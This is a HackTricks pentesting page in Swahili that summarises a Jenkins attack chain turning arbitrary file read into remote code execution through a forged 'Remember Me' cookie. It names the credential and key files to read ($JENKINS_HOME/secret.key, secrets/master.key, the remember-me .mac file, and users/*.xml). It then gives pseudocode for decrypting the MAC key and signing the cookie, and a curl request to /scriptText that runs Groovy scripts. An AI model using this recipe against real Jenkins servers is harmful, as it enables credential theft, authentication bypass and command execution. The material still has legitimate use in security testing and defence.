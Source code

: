 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Katika chapisho hili la blog, inawezekana kupata njia nzuri ya kubadilisha udhaifu wa Local File Inclusion katika Jenkins kuwa RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Hii ni muhtasari ulioandikwa na AI wa sehemu ya chapisho ambapo ufundi wa kuki isiyo ya kawaida unatumika vibaya kupata RCE kwa kutumia kusoma faili za ndani hadi nitakapokuwa na muda wa kuunda muhtasari wangu mwenyewe:

### Masharti ya Shambulio

* **Mahitaji ya Kipengele:** "Remember me" lazima iwe imewezeshwa (mipangilio ya default).
* **Viwango vya Ufikiaji:** Mshambuliaji anahitaji ruhusa za Jumla/Soma.
* **Ufikiaji wa Siri:** Uwezo wa kusoma maudhui ya binary na maandiko kutoka kwa faili muhimu.

### Mchakato wa Kina wa Kutumia

#### Hatua ya 1: Kukusanya Data

**Ukurasa wa Taarifa za Mtumiaji**

* Fikia usanidi wa mtumiaji na siri kutoka `$JENKINS_HOME/users/*.xml` kwa kila mtumiaji ili kukusanya:
* **Jina la mtumiaji**
* **Mbegu ya mtumiaji**
* **Wakati**
* **Hash ya nywila**

**Uondoaji wa Funguo za Siri**

* Ondoa funguo za kificho zinazotumika kusaini kuki:
* **Funguo ya Siri:** `$JENKINS_HOME/secret.key`
* **Funguo ya Msingi:** `$JENKINS_HOME/secrets/master.key`
* **Faili ya Funguo ya MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Hatua ya 2: Uundaji wa Kuki

**Maandalizi ya Token**

*   **Hesabu Wakati wa Kuisha wa Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ongeza saa moja kwa wakati wa sasa
```
{% endcode %}
*   **Unganisha Data kwa Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Ufunguo wa MAC Ufunguliwe**

*   **Fungua Faili ya Funguo ya MAC:**

```javascript
key = toAes128Key(masterKey)  // Badilisha funguo ya msingi kuwa muundo wa funguo wa AES128
decrypted = AES.decrypt(macFile, key)  // Fungua faili ya .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Hesabu ya Sahihi**

*   **Hesabu HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Hesabu HMAC kwa kutumia token na funguo ya MAC
tokenSignature = bytesToHexString(mac)  // Badilisha MAC kuwa mfuatano wa hexadecimal
```

**Ufungaji wa Kuki**

*   **Unda Kuki ya Mwisho:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Fanya base64 encode data ya kuki
```
{% endcode %}

#### Hatua ya 3: Utekelezaji wa Msimbo

**Uthibitishaji wa Kikao**

* **Pata CSRF na Token za Kikao:**
* Fanya ombi kwa `/crumbIssuer/api/json` ili kupata `Jenkins-Crumb`.
* Pata `JSESSIONID` kutoka kwa jibu, ambayo itatumika pamoja na kuki ya remember-me.

**Ombi la Utekelezaji wa Amri**

*   **Tuma Ombi la POST na Skripti ya Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skripti ya Groovy inaweza kutumika kutekeleza amri za kiwango cha mfumo au shughuli nyingine ndani ya mazingira ya Jenkins.

Mfano wa amri ya curl iliyotolewa inaonyesha jinsi ya kufanya ombi kwa Jenkins na vichwa na kuki zinazohitajika ili kutekeleza msimbo usio wa kawaida kwa usalama.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
